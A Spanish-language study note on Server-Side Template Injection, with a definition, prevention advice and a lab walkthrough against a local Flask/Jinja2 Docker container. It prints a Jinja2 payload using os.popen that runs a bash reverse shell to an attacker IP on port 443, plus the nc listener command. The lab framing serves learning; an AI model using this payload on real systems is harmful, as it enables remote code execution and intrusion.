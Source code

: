 ----
- Tags: #vulnerabilidades #web #logpoisoning #RCE #lfi 
----
# Definición

> El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

La inyección de plantillas permite a un atacante incluir código de plantilla en una plantilla **existente (o no)**. Un motor de plantillas **facilita el diseño de páginas HTML** mediante el uso de archivos de plantillas estáticas que, en tiempo de ejecución, **sustituyen las variables/marcadores de posición por valores reales en las páginas HTML**.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **Whatweb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.

Acá les dejo un Link con una **explicación detallada de diferentes casos** de **SSTI** https://infayer.com/archivos/803

# Explotación de SSTI en Laboratorio

Utilizaremos **Docker** para la creación de un entorno vulnerable a SSTTI de la siguiente manera.

- ``docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground``

Lo que haremos ahora será ingresar a la web http://localhost:8089 ya que con el comando anterior hemos hecho Port Forwarding de nuestro puerto 8089 para que sea el mismo que el del contenedor.

-----

En la web por lo que se puede observar tendremos un panel en el que **podremos colocar nuestro nombre de usuario**, en nuestro caso proporcionaremos nuestro nombre '*C4sp*'

![[SSTI 1.png]]

Como podremos observar, en la web se muestra el **output** del **input** que colocamos nosotros como nombre '*C4sp*', por lo tanto testearemos en vez de colocar ese nombre, poner otra cosa, por ejemplo un numero.

![[SSTI 2.png]]

Como podemos observar en la imagen anterior, la web **nos sigue mostrando el valor que coloquemos** como input, y no solo eso, descubrimos que en la **URL** hay un campo ``?user=`` el cual indica el valor del input que colocamos.

-------

Cuando nosotros encontramos un caso como este, en el que una web de un input que coloquemos se muestra en la web como output, **se está tratando de una plantilla dinámica**, que se **modifica dependiendo de lo que nosotros le coloquemos**.

Lo que podemos hacer en estos casos para verificar si la web es vulnerable a **SSTI** (*Server Side Template Injection*) es proporcionar **una operatoria numérica para ver si es interpretada** o solo nos muestra el mismo valor que colocamos, para esto podemos apoyarnos del repositorio de Github llamado [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) en la sección '*Server Side Template Injection*' para probar los diferentes tipos de *Payloads* para cada caso dependiendo del tipo de plantilla utilizada.

Si nosotros hacemos un ``whatweb http://localhost:80809`` podremos observar que en la web se está utilizando *Python[3.9.13]*, por lo tanto podremos buscar en el repositorio los diferentes tipos de Payloads a utilizar cuando Python está activo. Algo a tener en cuenta es que siempre que hagamos un ``whatweb`` y nos muestre '*Flask*' o '*Python*' es conveniente verificar posible **SSTI**.

![[SSTI 3.png]]

Si colocamos la primer operatoria en la web, comprobaremos si nos interpreta la operatoria ``4*4``

![[SSTI 4.png]]

En este caso lo **verificamos satisfactoriamente**, por lo tanto apoyándonos del mismo repositorio, podremos ver los diferentes tipos de Payloads para **abusar de esta vulnerabilidad SSTI**. 
En nuestro caso comprobaremos si alguno de todos los Payloads de la sección *Jinja2 - Read remote file* funciona, para intentar leer datos del servidor web.

El que nos funcionó a nosotros de todos los brindados fue el siguiente:

![[SSTI 5.png]]

![[SSTI 6.png]]

----

Ahora para hacer todo más crítico **buscaremos** algún *Payload* dentro del repositorio que se **derive este SSTI a un RCE**.

Hay una sección más abajo de la anterior vista llamada *Exploit the SSTI by calling os.popen().read()*, la función `os.popen().read()` en Python **ejecuta un comando en el sistema operativo y devuelve la salida de ese comando** como una cadena de texto.

Por lo tanto la cadena otorgada la cual es ``{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`` la colocaremos en la web, y reemplazaremos el campo "*id*" por el comando que quisiéramos ejecutar.

En nuestro caso queremos enviarnos una consola a nuestra máquina de atacante por lo tanto colocamos el típico oneliner para enviarnos una bash, quedando todo tal que así

- ``{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/192.168.0.193/443 0>&1"').read() }}``

Recordemos que en la URL siempre se deben colocar los ``&`` URLENCODED lo cual valdría '*%26*'.

Ahora solo basta con ponernos en escucha con ``nc -nlvp 443`` y ya tendríamos acceso a la máquina.
